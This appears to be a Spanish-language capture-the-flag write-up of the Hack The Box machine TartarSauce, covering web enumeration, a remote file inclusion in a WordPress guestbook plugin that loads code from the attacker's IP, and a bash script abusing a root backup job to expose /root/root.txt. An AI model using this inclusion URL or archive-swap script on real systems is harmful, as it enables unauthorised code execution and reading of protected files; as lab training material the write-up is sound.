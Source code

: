 # TartarSauce-HTB

## Nmap

![image](https://github.com/gecr07/TartarSauce-HTB/assets/63270579/c7ffdab0-afe6-4080-938b-002e3fc39235)

## Dirbuster

Para encontrar lo que sea es de las mejores tools aunque aveces de tantas peticiones llena los logs lo que hace que las maquinas no funcionen como deberian.

```
dirbuster -u http://10.129.1.185/ -t 200 -l /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -r dirout.ext -e php,txt,html
```

Todo lo demas que se encuentra en robots.txt son rabbit holes porquen o se puede hacer nada. Se encontro un WP 

### WP scan

Esta herramienta ayuda a enumerar el WP sin embargo, en esta ocacion no me detecto nada!

```
wpscan --detection-mode aggressive -e u,p --url http://10.129.1.185/webservices/wp 
```

Un check que siempre tienes que hacer es ver si tiene plugins aunque no encontro nada wpscan checa a ver si estan en el directorio donde siempre estan  aparte fuzzea 


```
wfuzz -c --hc=404 -t 200 -w /usr/share/seclists/Discovery/Web-Content/CMS/wp-plugins.fuzz.txt  http://10.129.1.185/webservices/wp/FUZZ 
```

![image](https://github.com/gecr07/TartarSauce-HTB/assets/63270579/f2fec32d-79c9-4394-b184-0b9501cf9041)


![image](https://github.com/gecr07/TartarSauce-HTB/assets/63270579/3f211fe4-93f0-4483-b8a8-11e398930402)


## RCE 

Buscamos y un plugin parece vulnerable.

![image](https://github.com/gecr07/TartarSauce-HTB/assets/63270579/3d793bf5-6436-4edc-bb21-b183dc781556)

```
http://10.129.1.185/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.108
```

## Privilege Esc

Lo que apredi en est maquina es que no importa que no tengas credenciales siempre intenta el sudo -l. Nos damos cuenta que se puede ejecutar tar con privilegios de otro usuario


![image](https://github.com/gecr07/TartarSauce-HTB/assets/63270579/0bc1f184-2c6d-41e1-addd-98af3f35c7cb)

Para los procesos que esta corriendo usa el PSPY

![image](https://github.com/gecr07/TartarSauce-HTB/assets/63270579/82875496-0d4d-4342-bf70-52ecd051a176)

```
#!/bin/bash

# work out of shm
cd /dev/shm

# set both start and cur equal to any backup file if it's there
start=$(find /var/tmp -maxdepth 1 -type f -name ".*")
cur=$(find /var/tmp -maxdepth 1 -type f -name ".*")

# loop until there's a change in cur
echo "Waiting for archive filename to change..."
while [ "$start" == "$cur" -o "$cur" == "" ] ; do
    sleep 10;
    cur=$(find /var/tmp -maxdepth 1 -type f -name ".*");
done

# Grab a copy of the archive
echo "File changed... copying here"
cp $cur .

# get filename
fn=$(echo $cur | cut -d'/' -f4)

# extract archive
tar -zxf $fn

# remove robots.txt and replace it with link to root.txt
rm var/www/html/robots.txt
ln -s /root/root.txt var/www/html/robots.txt

# remove old archive
rm $fn

# create new archive
tar czf $fn var

# put it back, and clean up
mv $fn $cur
rm $fn
rm -rf var

# wait for results
echo "Waiting for new logs..."
tail -f /var/backups/onuma_backup_error.txt
```




























